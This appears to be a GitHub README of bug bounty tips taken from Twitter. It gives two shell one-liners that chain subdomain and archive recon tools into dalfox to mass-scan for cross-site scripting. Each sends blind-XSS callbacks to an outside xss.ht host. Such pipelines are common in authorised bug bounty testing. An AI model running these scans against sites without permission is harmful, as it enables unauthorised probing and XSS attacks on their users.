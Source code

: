 # BugBountyTIps
Everything about bug bounty tips on twitter

<h2>XSS ONE LINER</h2>

```
cat domainlist.txt | subfinder | dnsx | waybackurl | egrep -iv "\.(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt|js)" | uro  | dalfox pipe -b your.xss.ht -o xss.txt
```
## XSS ONE LINER WITH KXSS

```
assetfinder -subs-only domain.com | waybackurls | grep "=" | kxss | sed 's/=.*/=/' | sed 's/URL: //' | dalfox pipe -b https://syarifsajjad.xss.ht/
```
